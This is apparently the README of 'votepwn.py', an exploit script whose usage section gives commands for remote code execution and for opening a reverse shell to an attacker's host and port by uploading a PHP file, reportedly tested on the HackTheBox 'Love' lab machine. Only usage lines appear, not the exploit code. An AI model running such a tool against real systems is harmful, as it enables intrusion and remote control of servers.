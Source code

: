 ## Usage
- Remote code execution
```bash
python3 votepwn.py -rce -u <username> -p <password> 
```
- Reverse shell
```bash
python3 votepwn.py -rs -u <username> -p <password> -lh <lhost> -lp <lport>
```
**Notes:**

Filename is 'bad.php' by default, can be changed with -file/--filename <name>

Listen port is 4444 by default

## Testing
These tests were made in HackTheBox - Love (Easy) 
- **Remote code execution**
![A gif goes here](https://media.giphy.com/media/D5lnkh2ImOIQVjluM1/giphy.gif)
- **Reverse shell**
![A gif goes here](https://media.giphy.com/media/YcJUBgmKhPD4mvM2HK/giphy.gif)
